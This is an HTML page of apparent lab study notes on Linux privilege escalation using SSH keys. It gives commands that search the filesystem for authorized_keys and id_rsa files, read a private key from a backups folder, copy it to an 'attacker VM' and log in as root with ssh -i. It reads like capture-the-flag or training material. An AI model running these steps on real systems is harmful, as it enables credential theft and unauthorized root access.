

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>SSH Keys</title>
</head><body><b>Escalation via SSH Keys 
 
Payload all the things 
 
SSH Key Sensitive files find / -name authorized_keys 2&gt; /dev/null 
find / -name id_rsa 2&gt; /dev/null  
 
</b> 
 
 
From here can cat out the key.. 
 
<b>cat /backups/supersecretkeys/id_rsa 
 
</b>extract they key to attacker machine. then you may as well try login as root using it, wiht no other info, it doesnt hurt to try throw it around. 
 
Save it to a file id_rsa 
 
chmod 600 id_rsa 
 
<b>ssh -i id_rsa root@&lt;ip&gt;</b> 
 
this will use the private key instead of a password to log in 
 
 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: 
find / -name authorized_keys 2&gt; /dev/null 
2. In a command prompt type: 
find / -name id_rsa 2&gt; /dev/null 
3. Note the results. 
 
Exploitation 
 
Linux VM 
 
1. Copy the contents of the discovered id_rsa file to a file on your attacker VM. 
 
Attacker VM 
 
1. In command prompt type: chmod 400 id_rsa 
2. In command prompt type: ssh -i id_rsa root@&lt;ip&gt; 
 
You should now have a root shell :) 
 
 
</body></html>